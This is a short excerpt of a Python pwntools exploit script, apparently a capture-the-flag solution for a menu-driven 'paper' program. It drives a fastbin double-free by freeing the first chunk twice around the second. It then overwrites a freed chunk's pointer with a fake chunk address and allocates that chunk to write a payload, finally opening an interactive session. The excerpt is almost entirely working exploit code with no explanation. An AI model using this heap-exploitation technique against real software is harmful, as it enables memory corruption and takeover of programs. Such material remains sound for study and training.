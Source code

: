 >   io.recvuntil('9):')
>   io.sendline('2')
>   io.recvuntil("ter:")
>   io.sendline('48')
>   io.recvuntil('content:')
>   io.sendline("second")
>>   
>   # gdb.attach(io,'b * 0x4008f8')
>   # free the first chunk
>   io.recvuntil("delete paper\n")
>   io.sendline('2')
>   io.recvuntil('9):')
>   io.sendline("1")
>>   
>   # free the second chunk
>   io.recvuntil("delete paper\n")
>   io.sendline("2")
>   io.recvuntil('9):')
>   io.sendline('2')
>>   
>   # free the first chunk
>   io.recvuntil("delete paper\n")
>   io.sendline('2')
>   io.recvuntil('9):')
>   io.sendline("1")
>>   
>   # malloc the first chunk
>   io.recvuntil("delete paper\n")
>   io.sendline('1')
>   io.recvuntil('9):')
>   io.sendline('1')
>   io.sendline('48')
>   io.sendline(p64(fakechunk))
>
>   # malloc the second and the first' chunk
>   for i in range(2):
>       io.recvuntil("delete paper\n")
>       io.sendline('1')
>       io.recvuntil('9):')
>       io.sendline('1')
>       io.recvuntil('enter:')
>       io.sendline('48')
>       io.sendline('malloc the second and the first* chunk')
>   # malloc the fakechunk
>   io.sendline("1")
>   io.sendline('2')
>   io.sendline('48')
>   io.sendline(payload)
>   # io.sendline('3')
>
>   io.interactive()
>   io.close()
